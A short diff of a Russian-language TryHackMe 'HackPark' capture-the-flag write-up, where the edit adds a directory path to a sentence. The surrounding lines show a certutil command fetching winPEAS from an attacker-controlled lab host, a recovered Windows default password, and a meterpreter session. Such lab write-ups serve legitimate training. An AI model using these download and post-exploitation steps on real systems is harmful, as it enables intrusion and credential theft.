

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Win Medium - HackPark/writeup.md, the part around one of its changes. GitHub-like rendering.

````diff
--- a/Win Medium - HackPark/writeup.md
+++ b/Win Medium - HackPark/writeup.md
@@ -253,7 +253,7 @@ certutil -urlcache -f http://10.21.104.16:8888/winPEASx64.exe winPEASany.exe
     DefaultPassword               :  4q6XvFES7Fdxs
 ```
 
-Перехожу в
+Перехожу в **"c:\Program Files (x86)\SystemScheduler"**
 ```
 meterpreter > ls
 Listing: c:\Program Files (x86)\SystemScheduler
````
Also changed, not shown: other parts of Win Medium - HackPark/writeup.md (+1 -1 lines).
